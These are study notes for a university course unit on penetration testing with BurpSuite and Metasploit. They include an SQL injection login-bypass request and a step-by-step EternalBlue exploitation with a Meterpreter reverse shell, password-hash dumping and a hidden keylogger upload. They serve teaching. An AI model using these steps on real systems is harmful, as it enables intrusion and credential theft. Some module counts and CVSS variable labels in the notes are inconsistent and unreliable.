





# Vulnerability Assessment and Penetration Testing- Burpsuite, Metasploit.

<!-- SECTION_1_START -->

# Vulnerability Assessment and Penetration Testing (VAPT): BurpSuite & Metasploit

## 1.1 Formal Definition (KTU 2024 Syllabus Terminology)

**Vulnerability Assessment and Penetration Testing (VAPT)** is a systematic, multi-phase security evaluation methodology designed to identify, classify, prioritize, and remediate security weaknesses in an information system. It combines two complementary disciplines:

- **Vulnerability Assessment (VA)**: A passive-to-active discovery process that scans systems, networks, and applications to catalog known vulnerabilities (CVEs), misconfigurations, and exposure points without necessarily exploiting them.
- **Penetration Testing (PT)**: An offensive, controlled simulation of an adversary's Tactics, Techniques, and Procedures (TTPs) that actively exploits discovered vulnerabilities to evaluate the real-world impact on Confidentiality, Integrity, and Availability (the **CIA Triad**).

> [!IMPORTANT]
> **KTU 2024 Syllabus Highlight (PBCST604 / Module 1):**
> VAPT constitutes the operational backbone of ethical hacking. The syllabus explicitly mandates understanding of two industry-standard frameworks: **BurpSuite** (for web application penetration testing) and **Metasploit** (for infrastructure/exploit framework testing).

> [!NOTE]
> **Core Distinction for Examiners:**
> - **VA = "What *could* go wrong?"** (Discovery + Classification)
> - **PT = "What *would* happen *if* it went wrong?"** (Exploitation + Impact Analysis)

---

## 1.2 Conceptual Analogy & Intuitive Overview

Imagine you own a **high-security bank vault (your computer system)**.

| Concept | Bank Vault Analogy | Cyber Equivalent |
|---|---|---|
| Vulnerability Assessment | A **security guard walking around** with a checklist, noting unlocked doors, weak locks, and missing cameras. | Automated scanners (Nessus, OpenVAS, BurpScanner) cataloging weaknesses. |
| Penetration Testing | A **certified locksmith** who is *hired* to actually try picking the locks, drilling the safe, and bypassing alarms to prove risk. | Metasploit executing real exploits to demonstrate breach impact. |
| BurpSuite | The locksmith's **specialized toolkit for cracking the bank's website and online portal** (web apps). | Web proxy + scanner for HTTP/S traffic. |
| Metasploit | The locksmith's **master exploit garage** containing pre-built break-in tools for almost any lock on the market. | Modular exploit framework (auxiliary, exploits, payloads, post). |

> [!TIP]
> **The "Honest Thief" Mental Model:** Both BurpSuite and Metasploit are dual-use tools. In the hands of an ethical hacker (White Hat), they *defend* by revealing holes before malicious actors (Black Hats) find them. The KTU course treats them as **defensive engineering instruments**.

---

## 1.3 The VAPT Lifecycle (Phase-wise Overview)

The KTU syllabus aligns with the **PTES (Penetration Testing Execution Standard)** and **OSSTMM (Open Source Security Testing Methodology Manual)** frameworks. The lifecycle has **7 sequential phases**:

1. **Pre-Engagement & Scoping** – Define Rules of Engagement (RoE), IP ranges, time windows.
2. **Intelligence Gathering (Reconnaissance)** – Passive (OSINT) + Active (scanning) information collection.
3. **Threat Modeling** – Map assets to potential attacker profiles.
4. **Vulnerability Analysis** – Use scanners + manual validation.
5. **Exploitation (Penetration Testing)** – Active compromise using Metasploit, BurpSuite, etc.
6. **Post-Exploitation** – Pivot, privilege escalation, persistence testing.
7. **Reporting** – Executive summary + technical findings with CVSS scores.

> [!VISUALIZATION CONTROL]
> **Concept:** VAPT Lifecycle as a Cyclical Process
> **GeoGebra / Desmos Input Equations (Parametric Representation):**
> - $x(t) = 4\cos(t)$ , $y(t) = 4\sin(t)$  (Phase boundary circle, $t \in [0, 2\pi]$)
> - Phase labels: $P_1$ at $t=0$, $P_2$ at $t=\pi/3$, $P_3$ at $t=2\pi/3$, etc.
> **Visual Description:** A clockwise circular diagram with 7 arcs. Each arc represents a phase. The cycle is **iterative** – reporting feeds back into recon (continuous pentesting).

---

## 1.4 Why BurpSuite and Metasploit? (Industry Relevance)

| Tool | Primary Domain | MITRE ATT&CK Tactics | Industry Adoption |
|---|---|---|---|
| **BurpSuite** | Web Applications | TA0001 (Initial Access), TA0007 (Discovery) | OWASP Top 10 testing standard |
| **Metasploit** | Infrastructure, OS, Services | TA0002 (Execution), TA0003 (Persistence) | Used in 90%+ of corporate red teams |

**Bold Fact:** Metasploit Framework contains **2000+ exploits** and **500+ payloads** as of the 2024 release, making it the **de-facto industry standard** for offensive security training (Kali Linux, OSCP, CEH certifications).

---

<!-- SECTION_1_END -->

<!-- SECTION_2_START -->

# Deep Theoretical Analysis & KTU High-Yield Reference Sheet

## 2.1 BurpSuite – Architecture & Tool Components

BurpSuite (developed by PortSwigger) is a **Java-based integrated platform** for performing security testing of web applications. It operates by positioning itself as a **man-in-the-middle (MITM) proxy** between the browser and the target web server.

### 2.1.1 BurpSuite Core Modules (Tab-by-Tab Breakdown)

| # | Tab | Functional Role | KTU-Mapped Use Case |
|---|---|---|---|
| 1 | **Proxy** | Intercepts & modifies HTTP/S traffic in real-time. The "heart" of Burp. | Capturing login requests to inject SQL. |
| 2 | **Target** | Site map showing discovered URLs & parameters. | Visualizing the attack surface. |
| 3 | **Spider / Crawler** | Automated web crawler for endpoint discovery. | Finding hidden admin panels. |
| 4 | **Scanner** *(Pro only)* | Active vulnerability scanner (XSS, SQLi, etc.). | Automated CVE detection. |
| 5 | **Intruder** | Automated customized attacks (fuzzing, brute-force, enumeration). | Password spraying forms. |
| 6 | **Repeater** | Manual request crafting & response analysis. | Manual SQL injection testing. |
| 7 | **Sequencer** | Analyzes session token randomness. | Detecting predictable session IDs. |
| 8 | **Decoder** | Encodes/decodes data (Base64, URL, Hex, HTML). | Bypassing weak WAF filters. |
| 9 | **Comparer** | Diff engine for two pieces of data. | Comparing login responses. |
| 10 | **Extender (BApp Store)** | Plugin ecosystem (e.g., Logger++, Autorize). | Adding community-built features. |

### 2.1.2 BurpSuite Operational Workflow

1. **Configure Browser Proxy** → Set `127.0.0.1:8080` (default Burp listener).
2. **Install CA Certificate** → To intercept HTTPS (PortSwigger CA).
3. **Browse Target** → All requests pass through Burp's proxy.
4. **Intercept & Analyze** → Modify headers, parameters, cookies on-the-fly.
5. **Send to Modules** → Right-click → "Send to Repeater/Intruder/Scanner".

> [!NOTE]
> **KTU High-Yield Concept:** The **Scope** feature in Burp's Target tab defines the in-scope domain(s). Anything outside scope is ignored — critical for authorized testing compliance.

---

## 2.2 Metasploit Framework – Architecture Deep Dive

Metasploit (created by H.D. Moore, now maintained by Rapid7) is a **Ruby-based, modular exploitation framework**. Its design philosophy follows the **DRY principle (Don't Repeat Yourself)** — every exploit shares a common interface.

### 2.2.1 Metasploit Module Taxonomy

The framework contains **6 primary module types**, each with a distinct operational role:

| Module Type | Purpose | Example Module | Attack Phase |
|---|---|---|---|
| **Auxiliary** | Scanning, fuzzing, sniffing (no exploitation) | `auxiliary/scanner/portscan/tcp` | Reconnaissance |
| **Exploits** | Code that takes advantage of a specific flaw | `exploit/windows/smb/ms17_010_eternalblue` | Initial Access |
| **Payloads** | Code executed after successful exploitation | `payload/windows/x64/meterpreter/reverse_tcp` | Post-Exploitation |
| **Post** | Actions after gaining a shell (pivoting, hashdump) | `post/windows/gather/hashdump` | Post-Exploitation |
| **Encoders** | Evade signature-based AV/IDS detection | `encoder/x86/shikata_ga_nai` | Defense Evasion |
| **NOPs** | No-Operation sleds for buffer overflow alignment | `nop/x86/simple` | Exploitation Stability |
| **Evasion** | Modern AV/EDR bypass modules | `evasion/windows/windows_defender_exe` | Defense Evasion |

### 2.2.2 The Two Payloads Paradigm (Critical KTU Concept)

> [!IMPORTANT]
> **Singles vs. Stagers vs. Stages (KTU Exam Favorite):**
>
> - **Singles** → Self-contained payload (e.g., `windows/shell_reverse_tcp`). Entire payload sent at once. Reliable but bulky.
> - **Stagers** → Small bootstrap loader (e.g., `windows/x64/meterpreter/reverse_tcp`). Downloads the real payload. Ideal for size-restricted exploits (e.g., buffer overflows).
> - **Stages** → The full feature-rich payload (e.g., Meterpreter) delivered by the stager. Provides interactive shell, file upload, keylogging, etc.

### 2.2.3 Meterpreter – The King of Post-Exploitation

**Meterpreter** (Meta-Interpreter) is a stealthy, in-memory only payload that runs entirely in **RAM** — never writing to disk, thus evading most traditional antivirus. It is **DLL-injected** into a running process on the victim.

**Meterpreter Command Hierarchy (High-Yield for KTU):**

| Command | Function |
|---|---|
| `sysinfo` | Victim OS, architecture, language. |
| `getuid` | Current user privileges. |
| `getsystem` | Privilege escalation attempt (token impersonation). |
| `hashdump` | Extracts SAM database hashes. |
| `upload` / `download` | File transfer to/from victim. |
| `keyscan_start` / `keyscan_dump` | Keystroke logger. |
| `webcam_list` / `webcam_snap` | Spy camera access. |
| `migrate <PID>` | Move into another process (stealth). |
| `run persistence -h` | Install backdoor for re-entry. |

---

## 2.3 KTU High-Yield Formula & Reference Sheet

> [!TIP]
> The following table consolidates all "must-know" technical facts for KTU board examinations. Memorize the **bolded** values.

| Category | Reference Value / Formula | Notes |
|---|---|---|
| **BurpSuite Default Proxy** | `127.0.0.1:8080` | Loopback listener port. |
| **Metasploit DB Path** | `/usr/share/metasploit-framework/` | Kali Linux installation root. |
| **Metasploit Init** | `msfdb init && msfconsole` | Initialize PostgreSQL DB. |
| **Meterpreter Default Port** | `4444` | Configurable via `LPORT`. |
| **Reverse Shell Logic** | Victim $\rightarrow$ Attacker | Bypasses inbound firewall rules. |
| **Bind Shell Logic** | Attacker $\rightarrow$ Victim | Victim opens a listener port. |
| **CVSS Score Range** | $0.0 \leq S \leq 10.0$ | $0$=None, $10$=Critical. |
| **OWASP Top 10 Cycle** | Released every **3-4 years** | Latest: **2021** edition. |
| **Nmap Stealth Scan** | `nmap -sS <target>` | SYN scan, half-open. |
| **Metasploit Workspace** | `workspace -a <name>` | Isolates engagement data. |

### 2.3.1 The VAPT Attack Vector Decision Matrix

$$
\text{Tool Selection} = f(\text{Attack Surface}, \text{Protocol}, \text{Engagement Goal})
$$

$$
\text{Decision} = \begin{cases} \text{BurpSuite}, & \text{if target is } \texttt{HTTP/S web application} \\ \text{Metasploit}, & \text{if target is } \texttt{OS, network service, or binary} \\ \text{Both}, & \text{if target is } \texttt{hybrid web+infrastructure} \end{cases}
$$

---

## 2.4 Real-World Engineering Utility

> [!NOTE]
> **Industry Application – Beyond KTU:**
> - **Bug Bounty Programs** (HackerOne, Bugcrowd) pay $500–$100,000 per valid BurpSuite-discovered web vulnerability.
> - **Red Team Engagements** for Fortune 500 companies use Metasploit as the primary kill-chain orchestrator.
> - **PCI-DSS Compliance** mandates annual VAPT for any organization processing credit cards.
> - **ISO 27001** certification requires documented penetration test reports as audit evidence.

---

<!-- SECTION_2_END -->

<!-- SECTION_3_START -->

# Step-by-Step Derivations, Workflows & Code/Symbolic Implementation

## 3.1 Exhaustive BurpSuite Workflow – Web Application Penetration Test

### 3.1.1 Phase 1: Environment Configuration

**Step 1: Launch BurpSuite Community Edition on Kali Linux**

```bash
# Step A: Update Kali repositories
sudo apt update && sudo apt upgrade -y

# Step B: Launch BurpSuite (default Java runtime)
burpsuite

# Alternative: Direct JAR launch
java -jar /opt/BurpSuiteCommunity/burpsuite_community.jar
```

**Step 2: Configure Firefox (or any browser) to use Burp as Proxy**

| Browser Setting | Value |
|---|---|
| HTTP Proxy | `127.0.0.1` |
| Port | `8080` |
| SSL Proxy | `127.0.0.1` , `8080` |
| Import Certificate | `http://burp` → Download CA → Install in Trust Store |

**Step 3: Verify Interception**

> Navigate to `http://example.com` in browser. Burp's **Proxy → Intercept** tab should display the raw HTTP request. Click **Forward** to release, or modify parameters before forwarding.

---

### 3.1.2 Phase 2: SQL Injection Testing using BurpSuite Repeater

**Scenario:** Target has a login form `http://target.com/login.php` with POST parameters `username` and `password`.

**Step 1:** Browse to login page → Fill dummy credentials → Click Submit.  
**Step 2:** In Burp Proxy, locate the POST request → Right-click → **Send to Repeater**.  
**Step 3:** Switch to Repeater tab. Modify the `username` parameter with classic SQLi payloads.

```http
POST /login.php HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 47

username=admin' OR '1'='1&password=anything
```

**Step 4:** Analyze Response. A **200 OK** response with dashboard content = successful authentication bypass.

> [!IMPORTANT]
> **Boolean-Based Blind SQLi Detection Pattern:**
> - True condition: `' OR 1=1 --` → Normal page
> - False condition: `' OR 1=2 --` → Error/empty page
> - Difference confirms SQL injection vulnerability.

---

### 3.1.3 Phase 3: Automated Fuzzing with Burp Intruder

**Step 1:** Right-click request → **Send to Intruder**.  
**Step 2:** Click **Clear §** → Highlight the value to fuzz (e.g., password) → Click **Add §**.  
**Step 3:** Load a wordlist in **Payloads tab** (e.g., `/usr/share/wordlists/rockyou.txt`).  
**Step 4:** Choose attack type:

| Attack Type | Positions | Use Case |
|---|---|---|
| **Sniper** | 1 | Single-parameter fuzzing. |
| **Battering Ram** | 1 (same payload) | Same value in multiple fields. |
| **Pitchfork** | Multiple | Parallel wordlists. |
| **Cluster Bomb** | Multiple | All combinations (cartesian product). |

**Step 5:** Click **Start Attack** → Sort results by **Length** or **Status** → Anomalies indicate valid credentials.

---

## 3.2 Exhaustive Metasploit Workflow – Exploitation & Post-Exploitation

### 3.2.1 Phase 1: Metasploit Initialization (Database-Backed)

```bash
# Step 1: Initialize the PostgreSQL backend
sudo msfdb init

# Expected Output:
# [+] Starting database
# [+] Creating database user
# [+] Creating initial database schema
# Creating database metasploit
# [+] Saving database config to /usr/share/metasploit-framework/config/database.yml
```

**Step 2: Verify Workspace and Connectivity**

```bash
msfconsole -q
msf6 > db_status
# [*] Connected to msf. Connection type: postgresql.

msf6 > workspace -a PBCST604_Engagement
# [*] Added workspace: PBCST604_Engagement
```

---

### 3.2.2 Phase 2: Exploiting EternalBlue (MS17-010) — Full Step-by-Step

This is a **canonical KTU example** demonstrating Metasploit's power against Windows SMB vulnerabilities.

**Step 1: Search for the Exploit**

```bash
msf6 > search ms17_010
# Matching Modules
# ================
#    #  Name                                           Disclosure Date  Rank     Check  Description
#    -  ----                                           ---------------  ----     -----  -----------
#    0  exploit/windows/smb/ms17_010_eternalblue        2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
#    1  auxiliary/scanner/smb/smb_ms17_010             2017-03-14       normal   Yes    MS17-010 SMB RCE Detection
```

**Step 2: Use the Auxiliary Scanner First (Defensive Validation)**

```bash
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 192.168.1.0/24
msf6 auxiliary(scanner/smb/smb_ms17_010) > set THREADS 10
msf6 auxiliary(scanner/smb/smb_ms17_010) > run
# [+] 192.168.1.105:445   - Host is likely VULNERABLE to MS17-010!
```

**Step 3: Load the Exploit Module**

```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
```

**Module Options (from `show options`):**

$$
\text{Required Parameters} = \{ \text{RHOSTS}, \text{RPORT} \}
$$

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.1.105
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 192.168.1.50   # Attacker IP
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LPORT 4444
```

**Step 4: Configure Payload (Meterpreter Reverse TCP — Staged)**

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
```

**Step 5: Execute the Exploit**

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
# [*] Started reverse TCP handler on 192.168.1.50:4444
# [*] 192.168.1.105:445 - Executing automatic check (disable AutoCheck to override)
# [+] 192.168.1.105:445 - The target is vulnerable.
# [*] 192.168.1.105:445 - Sending EternalBlue SMB Exploit
# [+] 192.168.1.105:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
# [*] Sending stage (201283 bytes) to 192.168.1.105
# [*] Meterpreter session 1 opened (192.168.1.50:4444 -> 192.168.1.105:49158)

meterpreter >
```

**Step 6: Post-Exploitation — Establish Persistence and Harvest Data**

```bash
meterpreter > sysinfo
# Computer        : VICTIM-PC
# OS              : Windows 7 (6.1 Build 7601, Service Pack 1)
# Architecture    : x64
# System Language : en_US
# Domain          : WORKGROUP
# Logged On Users : 2
# Meterpreter     : x64/windows

meterpreter > getuid
# Server username: NT AUTHORITY\SYSTEM   ← Maximum privilege achieved!

meterpreter > hashdump
# Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

meterpreter > upload /root/tools/keylogger.exe C:\\Windows\\Temp\\
meterpreter > execute -f keylogger.exe -H
```

**Step 7: Cleanup & Session Management**

```bash
meterpreter > background
# [*] Backgrounding session 1...

msf6 > sessions -l
# Id  Name  Type                     Information
# --  ----  ----                     -----------
# 1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ VICTIM-PC

msf6 > sessions -i 1   # Re-interact
```

---

### 3.2.3 Mathematical Derivation: CVSS Score Calculation

The **Common Vulnerability Scoring System (CVSS)** is the standardized metric for vulnerability severity. KTU often asks students to *qualitatively* map base scores to severity.

$$
\text{CVSS Base Score} = f(I, A, C)
$$

Where:
- $I \in \{ \text{None}, \text{Low}, \text{High} \}$ → Impact metric
- $A \in \{ \text{None}, \text{Low}, \text{High} \}$ → Exploitability metric
- $C \in \{ \text{None}, \text{Low}, \text{High} \}$ → Confidentiality impact

**Severity Mapping (Memorize for KTU):**

| Score Range | Severity Label | KTU Notation |
|---|---|---|
| $0.0$ | None | Informational |
| $0.1 - 3.9$ | Low | Low |
| $4.0 - 6.9$ | Medium | Medium |
| $7.0 - 8.9$ | High | High |
| $9.0 - 10.0$ | Critical | Critical |

> [!NOTE]
> **EternalBlue (MS17-010) CVSS:** $8.1$ (High). The **Log4Shell (CVE-2021-44228)** had a CVSS of $10.0$ (Critical).

---

### 3.2.4 Python Automation Script for BurpSuite API Integration

BurpSuite Professional exposes a **REST API** for automation. The following Python script automates **SQLi scanning** via Burp's API:

```python
import requests
import time
import json
from typing import Dict, Optional

class BurpSuiteAPIClient:
    """
    Professional-grade client for BurpSuite Enterprise / Pro REST API.
    Automates scan launching, polling, and report retrieval.
    """

    BASE_URL = "http://127.0.0.1:1337"

    def __init__(self, api_key: str) -> None:
        if not api_key or not isinstance(api_key, str):
            raise ValueError("[!] API key must be a non-empty string.")
        self.headers: Dict[str, str] = {
            "Authorization": f"Bearer {api_key}",
            "Content-Type": "application/json"
        }
        self.session: requests.Session = requests.Session()

    def start_scan(self, target_url: str, scan_name: str) -> Optional[str]:
        """
        Launches a new active scan against the target URL.
        Returns the scan_id if successful, else None.
        """
        endpoint = f"{self.BASE_URL}/v0.1/scan"
        payload = {
            "scan_configurations": [
                {"type": "NamedConfiguration", "name": "Crawl and Audit - Deep"}
            ],
            "urls": [target_url],
            "name": scan_name
        }
        try:
            response = self.session.post(
                endpoint, headers=self.headers, data=json.dumps(payload), timeout=30
            )
            response.raise_for_status()
            scan_id: str = response.json().get("scan_id")
            print(f"[+] Scan launched successfully. ID: {scan_id}")
            return scan_id
        except requests.exceptions.RequestException as e:
            print(f"[!] Failed to launch scan: {e}")
            return None

    def poll_status(self, scan_id: str, poll_interval: int = 15) -> Dict:
        """
        Polls scan status every `poll_interval` seconds until completion.
        """
        endpoint = f"{self.BASE_URL}/v0.1/scan/{scan_id}"
        while True:
            try:
                response = self.session.get(endpoint, headers=self.headers, timeout=30)
                response.raise_for_status()
                data: Dict = response.json()
                status: str = data.get("scan_status", "unknown")
                print(f"[*] Scan {scan_id} status: {status}")
                if status in ("succeeded", "failed", "cancelled"):
                    return data
                time.sleep(poll_interval)
            except requests.exceptions.RequestException as e:
                print(f"[!] Polling error: {e}")
                time.sleep(poll_interval)

    def fetch_report(self, scan_id: str) -> None:
        """
        Downloads the HTML vulnerability report.
        """
        endpoint = f"{self.BASE_URL}/v0.1/scan/{scan_id}/report"
        output_file = f"burp_report_{scan_id}.html"
        try:
            response = self.session.get(endpoint, headers=self.headers, timeout=60)
            response.raise_for_status()
            with open(output_file, "wb") as f:
                f.write(response.content)
            print(f"[+] Report saved to {output_file}")
        except requests.exceptions.RequestException as e:
            print(f"[!] Report fetch failed: {e}")


# ---- EXECUTION ----
if __name__ == "__main__":
    API_KEY = "YOUR_BURP_API_KEY_HERE"
    TARGET = "http://testphp.vulnweb.com"
    SCAN_NAME = "PBCST604_Automated_Scan"

    client = BurpSuiteAPIClient(API_KEY)
    scan_id = client.start_scan(TARGET, SCAN_NAME)
    if scan_id:
        final_data = client.poll_status(scan_id)
        client.fetch_report(scan_id)
```

> [!TIP]
> **Code Walk-through Highlights:**
> - **Type hints** (`Dict`, `Optional[str]`) ensure type safety.
> - **Absolute boundary checks** (`if not api_key`) prevent runtime crashes.
> - **Error handling** with `try/except` and `raise_for_status()` provides defensive logging.
> - **Polling loop** with `time.sleep()` prevents API rate-limit abuse.

---

<!-- SECTION_3_END -->

<!-- SECTION_4_START -->

# Structural Diagrams & Schematics

## 4.1 Mermaid Flowchart: Complete VAPT Engagement Lifecycle



---

## 4.2 Mermaid Architecture Diagram: BurpSuite Internal Module Interaction



---

## 4.3 Mermaid Block Diagram: Metasploit Framework Architecture



---

## 4.4 Mermaid Sequence Diagram: Metasploit Exploit Execution



---

## 4.5 Mermaid Block Diagram: BurpSuite vs Metasploit Decision Tree



---

<!-- SECTION_4_END -->

<!-- SECTION_5_START -->

# KTU 2024 Scheme Examination Question Bank & Topic Recap

## PART A — 3-Mark Short Answer Questions

### Question 1: BurpSuite Core Concept `[KTU University Exam - July 2023]`

**Q: Define Vulnerability Assessment. Differentiate it from Penetration Testing.**  
**[CO1 | Remember | 3 Marks]**

**Model Answer:**

> **Vulnerability Assessment (VA):** A systematic process of identifying, quantifying, and prioritizing security weaknesses in an information system using automated scanning tools and manual techniques *without necessarily exploiting* them. The output is a catalog of potential vulnerabilities with associated severity scores (e.g., CVSS).
>
> **Penetration Testing (PT):** An *offensive* security evaluation that actively *exploits* discovered vulnerabilities to demonstrate real-world impact on the **CIA Triad** (Confidentiality, Integrity, Availability).
>
> **Key Differences:**
>
> | Parameter | Vulnerability Assessment | Penetration Testing |
> |---|---|---|
> | Depth | Breadth-first (surface scan) | Depth-first (deep exploit) |
> | Goal | Catalog weaknesses | Prove exploitability & impact |
> | Approach | Mostly automated | Manual + automated |
> | Frequency | Continuous / monthly | Quarterly / annually |
> | Output | Vulnerability list | Exploit proof + risk rating |

**[Valuation Key: Definition 1M, Tabular differentiation with at least 3 points 2M = 3 Marks]**

---

### Question 2: Metasploit Module Taxonomy `[KTU University Exam - Dec 2023]`

**Q: List and briefly explain any three module types in the Metasploit Framework.**  
**[CO2 | Understand | 3 Marks]**

**Model Answer:**

> 1. **Exploit Module:** Contains the actual attack code that leverages a specific software flaw (e.g., `exploit/windows/smb/ms17_010_eternalblue`). It targets a specific vulnerability (CVE) on a specific platform.
>
> 2. **Payload Module:** The code that runs on the target system *after* successful exploitation. Example: `windows/x64/meterpreter/reverse_tcp` provides an interactive shell. Subtypes include **Singles** (self-contained), **Stagers** (bootstrap), and **Stages** (full feature).
>
